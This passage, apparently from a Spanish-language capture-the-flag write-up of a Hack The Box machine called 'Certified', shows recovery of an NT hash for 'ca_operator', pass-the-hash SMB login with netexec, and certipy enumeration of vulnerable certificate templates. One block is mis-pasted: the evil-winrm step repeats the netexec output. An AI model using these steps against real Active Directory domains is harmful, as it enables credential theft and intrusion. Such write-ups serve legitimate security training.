 ```bash
[*] Restoring the old Key Credentials for 'ca_operator'
[*] Successfully restored the old Key Credentials for 'ca_operator'
[*] NT hash for 'ca_operator': b4b86f45c6018f1b664f70805f45d8f2
```

- Ahora vemos que el hash es correcto.

```bash
❯ netexec smb 10.10.11.41 -u ca_operator -H b4b86f45c6018f1b664f70805f45d8f2
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\ca_operator:b4b86f45c6018f1b664f70805f45d8f2
```

- Pero no podemos usar `evil-winrm` para conectarnos.

```bash
❯ netexec smb 10.10.11.41 -u ca_operator -H b4b86f45c6018f1b664f70805f45d8f2
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\ca_operator:b4b86f45c6018f1b664f70805f45d8f2
```

- Algo que podemos hacer ya que la maquina se llama `Certified` es buscar si hay algún `template` vulnerable.

```bash
❯ certipy find -vulnerable -u ca_operator -hashes :b4b86f45c6018f1b664f70805f45d8f2 -dc-ip 10.10.11.41 -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'certified-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'certified-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'certified-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'certified-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : certified-DC01-CA
    DNS Name                            : DC01.certified.htb
    Certificate Subject                 : CN=certified-DC01-CA, DC=certified, DC=htb
    Certificate Serial Number           : 36472F2C180FBB9B4983AD4D60CD5A9D
    Certificate Validity Start          : 2024-05-13 15:33:41+00:00
    Certificate Validity End            : 2124-05-13 15:43:41+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : CERTIFIED.HTB\Administrators
      Access Rights
        ManageCertificates              : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        ManageCa                        : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Enroll                          : CERTIFIED.HTB\Authenticated Users
```